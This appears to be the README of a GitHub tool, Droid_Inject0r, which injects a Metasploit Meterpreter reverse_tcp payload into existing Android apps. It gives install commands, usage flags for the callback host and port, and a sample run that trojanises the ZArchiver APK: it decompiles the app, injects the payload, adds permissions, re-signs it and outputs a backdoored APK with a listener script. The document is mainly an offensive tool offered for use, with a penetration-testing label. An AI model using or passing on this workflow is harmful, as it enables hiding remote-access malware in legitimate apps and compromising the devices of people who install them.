 # Droid_Inject0r

Droid_Inject0r is a Python script to inject existing Android applications with a Meterpreter payload. It can be used during penetrating testing or security assessments.


[![asciicast](https://asciinema.org/a/ajlfaPCAmWbWT4Ie0GDmLshjy.png)](https://asciinema.org/a/ajlfaPCAmWbWT4Ie0GDmLshjy)

```
    [+] AUTOR:        Yasser Janah
    [+] GITHUB:       https://github.com/Y4SS3R005
    [+] TWITTER:      https://twitter.com/Y4ss3rJ4n4h
    [+] FACEBOOK:     https://fb.com/yasserjanah19
```
# Getting the code

Firstly get the code:
```
git clone https://github.com/Y4SS3R005/Droid_Inject0r.git
cd Droid_Inject0r/
chmod +x install_requirements.sh
./install_requirements.sh
```
# Usage

```
Usage: python2 Droid_apk_Inject0r.py -p [PAYLOAD] --lhost=[LHOST] --lport=[PORT] --apkfile=[APKFILE]
    << Coded by : Yasser Janah >>
    << Facebook : https://facebook.com/yasserjanah19 >>
    << Twitter  : https://twitter.com/Y4ss3rJ4n4h >>
    << Github   : https://github.com/Y4SS3R005/ >>
    -p  , --payload        a metasploit android payload (e.x android/meterpreter/reverse_tcp) (not required)
    -lh , --lhost          The listen address (not required)
    -lp , --lport          The listen port (default 4444)
    -ap , --apkfile        path of apkfile (required!!)
```

# Need just select the apkfile 
```
$ ./Droid_apk_Inject0r.py --apkfile zarchiver0-8-3.apk

[*] payload not selected .. default 'android/meterpreter/reverse_tcp'
[*] LHOST not selected .. using '192.168.43.230'
[*] LPORT not selected .. using '4444'
[+] Generating payload:  Generated.
[+] Decompling payload:  Decompiled.
[+] Decompling 'zarchiver0-8-3.apk':  Decompiled.
[+] Copying payload files into 'zarchiver0-8-3.apk':  Done.
[*] Parsing AndroidManifest file
[*] Activity PATH : 'ru/zdevs/zarchiver'
[*] SMALI File    : 'ZArchiver.smali'
[+] Injecting payload into 'zarchiver0-8-3.apk':  Injected.
[+] Get Permissions from payload AndroidManifest file:  Done.
[+] Add Permissions into 'zarchiver0-8-3.apk' AndroidManifest file:  Permissions Added.
[+] Recompling 'zarchiver0-8-3.apk':  Recompiled.
[+] Signing 'zarchiver0-8-3.apk':  Signed.

[+] metasploit rc file : '/home/mcsc/Droid_Inject0r/droid_apk.rc'

[+] final apk : '/home/mcsc/Droid_Inject0r/zarchiver0-8-3-final.apk'

```
